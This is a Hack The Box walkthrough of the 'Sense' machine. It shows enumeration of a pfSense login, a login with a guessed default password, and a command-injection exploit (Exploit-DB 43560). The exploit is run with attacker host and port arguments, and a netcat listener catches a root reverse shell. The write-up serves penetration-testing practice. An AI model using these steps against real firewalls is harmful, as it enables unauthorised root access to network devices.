 ```yaml
---
title: "Hack The Box - Sense"
date: 2020-02-06
tags: [oscp, htb, freebsd]
collection: oscp-prep
published: true
layout: single
classes: wide
toc: true
toc_label: Table of Contents
headline: "Gobuster enumeration and command injection on pfSense"
picture: /assets/htb-sense/machine_info.png
author_profile: true
---
```


![](/assets/htb-sense/machine_info.png)

## Enumeration

Initial Nmap scans show only ports 80/443 open, running lighttpd.

```
Nmap scan report for 10.10.10.60
Host is up, received user-set (0.050s latency).
Not shown: 65533 filtered ports
Reason: 65533 no-responses
PORT    STATE SERVICE  REASON  VERSION
80/tcp  open  http     syn-ack lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
443/tcp open  ssl/http syn-ack lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Login
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_ssl-date: TLS randomness does not represent time
```

Navigating to the page gives us a certificate error, which we can accept and bypass. When the page loads, we can see it's a pfSense login page.

![](/assets/htb-sense/pfsense_home.png)

Running a `gobuster` scan shows several subdirectories, and text files we should check out, especially `changelog.txt` and `system-users.txt`.

![](/assets/htb-sense/gobuster.png)

---

## Initial Shell

### Logging into pfSense

First thing we should try is the default pfSense credentials of `admin:pfsense`. This doesn't work, so we need to look for credentials elsewhere.

Let's check out the `changelog.txt` file.

```
# Security Changelog 

### Issue
There was a failure in updating the firewall. Manual patching is therefore required

### Mitigated
2 of 3 vulnerabilities have been patched.

### Timeline
The remaining patches will be installed during the next maintenance window
```

I was hoping it would give us the current version, but this doesn't tell us much details, except that there apperas to be a known vulnerability still present on the target.

Let's move on to `system-users.txt`

```
####Support ticket###

Please create the following user


username: Rohit
password: company defaults
```

Interesting. So we have a username of `Rohit`, and a clue for the password being `company defaults`. I bet you the password is `pfsense`, just like the default credentials we tried earlier.

Sure enough, logging in with `rohit:pfsense` gives us access to the pfSense admin panel. We can also see that it's running version 2.1.3.

![](/assets/htb-sense/pfsense_panel.png)

### Command Injection

In searching Exploit-DB, we can find [this exploit](https://www.exploit-db.com/exploits/43560), which is will provide us with a remote shell after exploiting a command injection vulnerability. We can copy it locally with `sspt -m exploits/php/webapps/43560.py`. We can run the exploit with `python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.15 --lport 7500 --username rohit --password pfsense`.

> Make sure you open a listener with `nc -lvnp 7500` before running!

![](/assets/htb-sense/explit_run.png)

Looking at our listener, we get back our reverse shell as expected, and it's a `root` shell!

![](/assets/htb-sense/root_shell.png)

We can grab `user.txt` from `/home/rohit/user.txt`

![](/assets/htb-sense/user_proof.png)

We can grab `root.txt` from `/root/root.txt`

![](/assets/htb-sense/root_proof.png)
